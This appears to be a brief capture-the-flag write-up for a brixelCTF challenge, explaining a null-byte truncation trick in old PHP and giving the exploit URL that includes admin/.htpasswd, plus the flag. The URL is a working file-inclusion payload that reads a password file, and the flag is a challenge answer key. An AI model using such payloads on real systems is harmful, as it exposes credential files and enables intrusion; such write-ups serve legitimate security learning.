 Since php version is 5.3.4, it allows null-byte terminating a string. So the solution is visiting http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00.php. The flag is: brixelCTF{outdated_php}
